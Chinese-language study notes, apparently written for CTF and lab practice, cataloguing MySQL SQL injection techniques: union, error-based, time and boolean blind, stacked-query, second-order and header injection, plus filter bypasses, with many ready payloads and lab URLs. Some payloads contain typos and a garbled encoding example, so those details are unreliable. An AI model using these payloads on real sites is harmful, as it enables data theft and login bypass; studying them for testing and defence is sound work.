





### 常规的探测sql方式

#### 1.	‘

‘’单引号包裹的话，使用单引号打断

```
?id=1' and 1=1%23
```


#### 2.	"

“双引号包裹的话，使用双引号打断

```
?id=1" and 1=1%23
```


#### 3.	()

有可能后端构造的sql语句中使用了`()`对数据进行包裹。ps.当然`()`包裹的里面也可能是单引号或双引号


使用小括号和单引号，或小括号和双引号：

```
?id=1') and 1=1%23
?id=1") and 1=1%23
```


#### 4.	and

`and`主要是用于探测注入点：`and`后面的语句是否生效(ps.也就是注入的语句是否生效)。以及盲注需要

例如：`?id=1'and 1=1%23`或`?id=1' and 1=2%23`


#### 5.	or

`or`主要用于绕过：强制使`or`后面语句生效。

例如：

```
	登录

​			用户名的：' or 1=1#
```


and和or的区别之一是：`and`常用于get测试注入点。`or`常用于`post`测试注入点。因为前者多半能正常回显，也就是说`and`前面为`true`，而`or`一般测试都不会正常回显，`or`前面为false(ps.因为是登录嘛)。


当然这两者没上面我说的那么死板。正常测试中根据具体情况灵活应用。


==有些地方不能加'所以就用ASCⅡ 来代==替

### union类型
判断注入点，判断字符还是整形注入就不说了，
union注入的要点就是判断注入点和回显点，当两者都存时，基本就可以使用union注入
1. 先通过'或者1' and 1='1判断是否有注入点
1. 通过order by判断当前的数据库中有多少个字段
1. 再用union select 1,2,3判断回显点
1. 使用union select database(),version()判断数据库名和数据库版本
1. 当版本大于5.5时在数据库information_schema中寻找当前数据库的所有表union select group(table_name)2,3 from information_schema.tables where table_schema='当前数据库 '
2. 和上面同样的去information_schema的columns表里寻找要找的当前数据库的表中的字段union select group(column_name)2,3 from information_schema.columns where table_schema='当前数据库 ' table_name='上面找到的表名'      (ps.也可以通过information_schema.schemata表来找所有的数据库)


### 报错注入
先用'测试能否被注入(例如http://www.ffffff.com/?id=1')这时候在数据库中查询中因为多了一个单引号而报错，(故意使其报错)程序如果直接报报错信息输出到了页面上的话就可以使用报错注入。(查询语句会直接返回到报错信息里)报错注入有多种格式，这里我们使用updatexml()函数来演示，语句如下：


判断能否报错注入，主要看sql的错误信息是否会回显到前端页面。如果能回显的话，那就能报错注入。


> ！！！报错注入必须构造的语句本身没有语法甚至语义上的错误，`updatexml`和`extractvalue`本身会抛出一个错误。如果语句本身发生错误，updatexml和extractvalue则不会报错。

> 而报错注入本省则会引发一个错误，导致sql语句不会执行


1. 查询当前数据库
```
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```

1. 查询所有数据库
```
' and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schemat.schemata),0x7e),1)
```

2. 查询当前数据库的所有表
```
' and updataxml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)
```

3. 查询当前表的所有字段
```
' and updatexml(1,concat(select group_concat(column_name) from information_schema.columns where table_name='当前表名' and table_schema='当前数据库'),1)
```

4. 略(同样的查询当前数据库的字段值就不用写了吧， 和上面一样的)

除了使用`updatexml`函数之外还能使用`extractvalue`函数。`extractvalue`函数的使用方法和`updatexml`函数及其类似

```
' and extractvalue(1,concat(0x7e,(构建的函数语句),0x7e))%23		//extractvalue函数
' and updatexml(1,concat(0x7e,(构建的查询语句),0x7e),1)%23			//updatexml函数
```

> 两者起码表面上相差的只是格式而已，`updatexml`比`extractvalue`多了最后面的一个参数


extractvalue和updatexml，与floor的区别之一为：前两者只能最多显示32位，而floor则不受其限制。而且有些mysql版本是没有extractvalue和updatexml报错注入的。

位数的理由能通过`mid()`函数解决。

```
1' and extractvalue(1,concat(0x7e,mid((select database()),32)))
```


#### floor

> 此函数原本的作用为：取小于或等于参数中的最大整数，例如`floor(1.23)`==1，`floor(2)`==2

> 注入，floor弹出的数据，末尾都会加上1


floor报错注入准确的说是，`floor()`，`count()`，`order by` 冲突报错

[文章讲解](https://blog.csdn.net/zpy1998zpy/article/details/80650540)

[ctf题。选择其中的sql注入的报错注入](https://www.ctfhub.com/#/skilltree)


##### 基本的形式(union)


因为floor报错注入的根本是通过`floor()`，`count()`，`order by`来构造冲突。所以就要构造sql语句把这三者包含其中


​		于是构造语句如下：

```
select * from users where id=1 union select 1,count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x
```


主要是通过构造`floor()`，`count()`，`order by`来构造出冲突

> 此处为报错注入，而不是union注入。这是长得像union而已。因为floor会抛出异常的原因，所以union并不会回显。


##### and形式的报错注入

floor的话能使用的较为灵活，例如能通过and来进行报错注入，也能通过union select 来进行注入


例：

```
select * from users where id=1 and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

> 此处比较长，
>
> 小括号`()`后的x和a都是表示别名的意思。
>
> 之所以把and后面的语句包裹起来，是因为后面的表达式的值只能为bool值，而不是结果集：
>
> ​			也就是说之所以使用`select 1 from (……)a`是因为and要求返回的为bool值，而不是结果集


##### floor的补充mid

同样的，使用floor函数的作用为截取完整的字符。其实也可以通过`mid`函数来进行字符的截取，从而获取全部的字符

```
select * from users where id=1 and extractvalue(1,concat(0x7e,mid((select database()),5)));
```

> `extractvalue()`和`updatexml()`的最大长度为32.
>
> `mid()`函数从哪里截取看你自己。但是其实mid()函数也受32长度的限制。只是输出的顺序，就可以进行显示所有字符。
>
> 
>
> ```
> 1' and extractvalue(1,concat(0x7e,mid((select database()),5)))%23
> ```
>
> 这里重新写一下。这样看的清楚些


### 盲注

切记！！！

sql是对大小写不敏感的。`d`=`D`。盲注出来的数据无法区分大小写。CTF题中要注意！！！


需要注意的是如果使用`and`来进行盲注的话。如果注入的字段不是`id`，而是`username`这样的话。必须先猜

左边的用户名。因为如果`and`前面的判断为`false`的话，根本就不会执行后面的语句，所以盲注自然也不行。这里我更推荐使用`^`异或注入。

> 当然对于`and`也有其他的可替代的连接符`+`，`<>`，`>`，`<`。详情可以看一下`SQL语法杂记`的运算符
>
> 当然，其实用`or`也行。不过`or`搭配sleep()……


#### 时间注入

> （ps.通过burp suite的Cluster bomb爆破就不说了）==
> ==时间盲注和boolean盲注很像的，但是时间盲注的特点之一是所用的时间比较长，==

访问能时间盲注的网址时，，和boolean注入类似的成功返回yes(完整页面),失败返回no(不完整页面),与boolean不同之处在于：时间盲注是利用sleep()或benchmark()等函数让mysql的执行时间变长，多与if(expr1,expr2,expr3)结合使用，此if语句的含义是：如果expr1是TRUE，返回expr2,否则返回expr3

> 注意：不知道为什么，我能够`length(database())`，猜解数据库的长度，但是却没法猜解返回的表名的长度

> substr("字符串",1,1)与limit 0,1的区别是：substr是从1开始的。limit是从0开始的


总的来说，时间注入有三种方式：

1. 通过`substr`

```
' and if(substr((select database(),1,1)='a',sleep(5),1)%23
```

> 数据库库名首字母是否为`a`

2. 通过`length`

   ```
   ' and if(length(database())>1,sleep(5),1)%23			
   ```

   > 判断数据库长度


​	3.通过`ASCII()`

```
' and if(ASCII(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=109,sleep(5),1)%23
```

> 判断 查询数据库中第一个表的表名首字符ASCII是否为`35`（也就是`#`）

> 注意：ascii码查询时候，只能操作单个字符。因为操作多个字符的话无法识别到底从哪里断句。
>
> 例如：`select * from test_table where ascii(name)=112;`这种只能查询单个字符。


首先测试是否能时间注入

```
' and sleep(5)%23s
```


1. 猜解数据库长度
```
' and if (length(database())>1,sleep(5),1)%23				//使用#的url编码来注释
```
上面语句的含义为：如果数据库库名长度大于1，则mysql查询休眠5秒，否则查询1(PS.两者用burp suite抓包可以看到明显的时间差，正常的一般只用得到几十毫秒)
2. 猜解数据库名
```
and if (substr(database(),1,1)='s',sleep(5),1)
```

3.猜解表名

```
' and if(substr((select table_name from information_schema.tables where table_schema=database(),1,1),sleep(5),1)
```


有可能数据是某些字符，这时就不好进行操作。例如：

> 数据库用户名为`test#`

```
' and if(substr((select name from user limit 0,1),5,1)='#',sleep(5),1)%23
```

> 使用上面这种格式的话可能会出现问题。
>
> 所以：

```
' and if(ASCII(substr((select name from user limit 0,1),5,1))=35,sleeep(5),1)%23
```

> 通过转换为`ASCII`来绕过编码的问题


#### boolean注入


##### 基本类型

当判断一个网站是否有注入点时使用'和1' and 1='2发现都是网页缺了一部分，而当1' and 1='1时网页完整的，这种的话可以考虑这种是否是boolean注入，也就是说网页完整的话就是True不完整的话就是False，这样的话：

1. 先判断数据库的长度：1' and length(database())>=1 --+                (ps.--表示注释后面加号表示空格，当这里的网页返回不完整时，表示为False，这样的话就调试后面的场电影大小)
2. 当猜解出来了长度后就开始用substr猜解：1' and substr(database(),1,1)='t' --+==(ps.substr作用为猜解字符，后面的1,1为猜解从这个str的第一个字符开始，截取1个字符)==，这句substr作用就为猜解数据库名的第一个str字符，同样的第二个字符就是substr(database(),2,1)
3. 同样的把substr(database(),1,1)中的database()换成其他的select语句就可以查询其他的数据了,比如:`1' and substr((select table_name frominformation_schema.tables where table_schema='当前数据库' limit 0,1),1,1)='a' --+`limit 和substr 取第一条数据的第一个str字符
4. 1' and substr((select flag from sql_error_inject.flag limit 0,1),1,1)>=14 --+ 


##### bool注入，通过报错

> 此处的意思为，数据库无论是否查询到数据都不会回显到前端，只有sql报错才会回显到前端。
>
> (ps.不是具体的sql报错，不能用extractvalue注入)。


如果注入后，不管查询的结果是否正确都不回显的话。只有当sql语句报错的时候才会回显

>  也就是说`1 and 1=1`和`1 and 1=2`回显的内容都一样，而`1' anaa`却会回显报错。


也就是说此处  通过报错的方式来bool注入。本身返回的结果中有没有数据，并不回显。只有sql语句报错才会回显


payload:

```
?id=(if(length(database())>1,1,(select table_name from information_schema.tables)))
```

> 此处是通过`if`返回的数据，构造出报错。此处不能使用extractvalue等。因为它本身直接就会引发报错。
>
> 而此处，通过`if`判断式，正确的话，返回1继续查询。错误的话返回结果集，构成报错前端回显。


```
(if(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() limit 0,1),1,1)='a',1,(select table_name from information_schema.tables)))

(if(substr((select group_concat(flag) from flag),1,1)='a',1,(select table_name from information_schema.tables)))
```


此处没有`''`或`""包裹数据`。如果有的话：

```
?id=1' and if(length(database())>1,1,(select table_name from information_schema.tables))='1	
```


### 堆叠查询注入攻击


堆叠查询其本质就是构建多条SQL语句。


和`union`，盲注，报错注入，cookie注入不同的是：

​	以上注入方式，全都是通过构建SQL语句：`union`，`updatexml,extractvale`，盲注切分字符串


而堆叠注入的本质是通过构建多条sql语句。


#### 实例1

> 当然，堆叠注入不止这种方式，还可以用`union`方式，和盲注方式。如：
>
> ```
> 1';select if(substr((database()),1,1)='a',sleep(5),1);#
> ```


CTF题如下：

[链接](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1)

> 说明这是一道注入题



> 简单说，这里本身就有SQL注入的漏洞。通过`'`。可以打断SQL语句报错。


但是此文中`select`被过滤掉了

这样的话，最多也就盲注出了`database()`为supersqli



> 此处我们就来用堆叠注入


> 可以看到的是：第二个sql语句`show databases`产生了作用。


然后继续的通过`show`来查看`supersqli`库中的表



> 通过`1';show tables from supersqli;#`来查询数据库`supersqli`下的表。

> 其实可以通过`use`的方式来查看。`1';use supersqli`然后`1';show tables;#`


这里的words为前端显示的数据库，1919810931114514为flag所在的表


再通过`show`来查看两个表的表结构：


> 此处注意，如果使用这种方式去看其他库中的表的话。貌似是不行的，因为没有被选中。





> 注意：数字作为表名的话，需要加反引号``


到这一步为止，`show`不能再查看1919810931114514的数据了。


这里有两种方法来查看`1919810931114514`的数据

1. 修改`1919810931114514`为`words`表，字段再对应。把`words`表改成其他名字。这样客户端取数据的时候就取的flag数据了。
2. 预编译。这里不阐述，[点击](https://blog.csdn.net/chuxuezheerer/article/details/104219527)


这里只讲讲1方法：	

​	这里我们将`1919810931114514`改为`words`表，字段对应。把`words`表改成其他名字

```
1';alter table words rename to wordss;alter table `1919810931114514` rename to words; alter table words change flag id varchar(255);%23
```

> 不行的话试试这个payload
>
> ```
> 1';rename tables words to words1;rename tables `1919810931114514` to words; alter table words change flag id varchar(100);#
> ```

这样，我们通过`1' or 1=1 %23`。绝对成立，弹出所有数据


### 二次注入攻击
二次攻击的话有两个地址，第一个地址为注册用户名的地址，也是插入sql语句的地址。第二个页面的功能是通过参数id来读取用户名和信息

第一步，访问1.php?username=test'。注册username为test'的用户id为1
第二步，访问2.php?id=1，发现页面报错,因为多了一个'，可以确认查询的时候是直接带数据进sql语句的

第三步，访问1.php?username=test' order by 1%23 再访问2.php?id=2发现页面返回正常
第四步，访问1.php?username=test' order by 10%23在访问2.php?id=3发现页面返回错误

……

……

……通过反复的测试得到字段为3
第八步，访问1.php?username=test' union select 1,2,3 再访问2.php?id=4发现返回了union select中的2，3字段

下面步骤就和union一样了


### cookie注入攻击
简单书就是通过burp suite抓包看cookie(ps.例如`cookie:id=1`)


### 其他注入

> 此处的其他注入就不是普通的注入方式

##### MD5绕过

我打CTF中有一道题是这样的

```
<?php
include "config.php";

if(isset($_GET['userid']) && isset($_GET['pwd'])){

    $strsql="select * from `user` where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'";

    $conn=mysql_connect($dbhost,$username,$pwd);
    mysql_select_db($db,$conn);
    mysql_query("SET NAMES 'UTF-8'");
    $result=mysql_query($strsql);
    print_r(mysql_error());
    $row=mysql_fetch_array($result);
    mysql_close($conn);
    echo "<pre>";
    print_r($row);
    
    echo "</pre>";
    if($row!=null){
        echo "Flag: ".$flag;
    }
    
}
else{
	echo "PLEASE LOGINT!";
}
echo "<noscript>";
echo file_get_contents(__FILE__);
```

> 简单说，该查询把md5加密的字符串带到查询语句里一起查询。本来是不该出现问题。
>
> 可是：如果MD5`md5(,true)`加密后的字符串中带有`'or`的话就能够绕过了

于是绕过的`pwd`的值为`ffifdyop`

```
http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/?userid=1&pwd=ffifdyop
```


其原因是因为使用`md5(,true)`函数加密的话使用的是原始16进制加密，此加密有漏洞，就是`ffifdyop`


##### 登录绕过

> 这种绕过的话应该很少很少了

很简单。登录的时候

登录用户名框输入：`' or 1=1#`

这样的话就会执行后面的语句而不是前面的查询，就可以直接绕过登录了


​		

### base64注入攻击
就是看到参数.php?id=MQ%3d%3，这种就是通过url编码过的，同样的用union查询语句通过base64转码就好了

### XFF注入
简单说就是用burp suite抓包的时候发现http请求头参数X-Forwarded-for。X-Forwarded-for简称XFF头，它代表客户端真实的ip，通过移动X-Forwarded-for的值可以伪造客户端ip，将X-Forwarded-for设置为127.0.0.1，然后访问该URL页面返回正常
1，X-Forwarded-for:127.0.0.1的时候返回正常
2.X-Forwarded-for:127.0.0.1'的时候返回错误
3.X-Forwarded-for:127.0.0.1' and 1=1#返回正常
……
……
……
其他的就和普通的注入一样了

### SQL注入绕过

#### 大小写绕过
本来是 1' and 1=1#返回错误
现在我们写1' And 1=1就可以注入了(ps.其他的相同Order  By ;Select)


#### 宽字节绕过

对一个CTF进行测试的时候发现`?id=1'`没有作用

当我们对网站进行抓包的时候。发现网站的响应中有一行。

```
Content-Type: text/html; charset=gb2312
```

> 此处可以看出，后端使用的是`gb2312`。也就是说是GBK系列编码。

使用GBK编码可能有一个问题。当使用的是GBK编码，而且后端对`'`进行解析是使用`\`进行转义的。

因为在GBK使用一字节和双字节编码。所以后端会把`'`转义为`\'`，而`\`的url编码是`%5c`。而`%bf%5c`又会被认为是一个宽字节的字符（也就说构建字节，使两个单字节组成一个宽字节）。通过这样`\`就会被转义掉。这样我们后面的`'`就不会被转义了。这样我们就打断了`''`的限制。


测试是否有宽字节绕过：

```
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=4%bf'
```

> 测试出`mysql`报错


这时就天高任鸟飞了

```
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=4%bf' union select 1,2,3%23	
```

> 此处最后面的是`#`的url编码格式


注意如果`'`全部都被过滤了的话后面使用`unoin select`查询的时候：

```
%bf' union select 1,2,(select column_name from information_schema.columns where table_name=0x74657374)										
```

> 此处由于`'`被转义，所以`'test'`也会被转义。此时`test`最好用十六进制转码：`0x74657374`


#### 双写绕过


在一些场景中后端会对特殊的单词进行过滤，检测到某单词，会把该单词替换为空字符。

此时就需要进行双写绕过：

>  如：后端对and进行了过滤。传进去的`and`全都会被转成空字符。此时写为`anandd`就可以绕过


这种方式就叫双写绕过


实例：

在`sqli-labs`中，第25题。该题采用了过滤`and`,`or`,`&`。这三个字符串都会被替换为空。


此处就使用双写绕过：

payload:

```
?id=1' anandd extractvalue(1,concat(0x7e,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()))%23
```

> 通过双写被过滤的字符就可以达到绕过的方法：`or`写成`oorr`，中间or被替换为空，又新组成`or`
>
> `anandd`


#### 编码绕过
访问id=1'时发现页面报MYSQL错误，接着访问id=1 and 1=1和id=1 and 1=2发现关键字and被拦截。尝试使用URL全编码的方式绕过拦截。由于服务器会自动的对url编码进行一次URL解码，所以需要把关键词编码两次，关键字and两次URL的编码结果为%25%36%54%87%33%99,访问id=1 %25%36%54%87%33%99 1=1时页面返回正常(ps.其他的一样，也是关键字通过url两次转码)

#### 内联注释绕过注入
/*!*/这就是内联注释，关键词放在里面就可以绕过(ps./*!and o*/)